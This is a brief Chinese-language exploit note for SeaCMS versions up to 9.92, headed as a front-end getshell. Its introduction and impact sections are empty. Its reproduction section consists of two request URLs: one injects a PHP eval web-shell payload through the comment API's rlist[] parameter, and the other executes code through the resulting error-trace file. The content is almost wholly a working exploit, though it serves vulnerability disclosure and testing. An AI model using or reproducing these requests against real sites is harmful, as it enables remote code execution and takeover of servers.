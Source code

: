 Seacms \<= 9.92 前台Getshell
============================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

    http://0-sec.org/comment/api/index.php?gid=1&page=2&rlist[]=*hex/@eval($_GET[_]);?%3E

然后访问：

    http://0-sec.org/data/mysqli_error_trace.php?_=phpinfo()
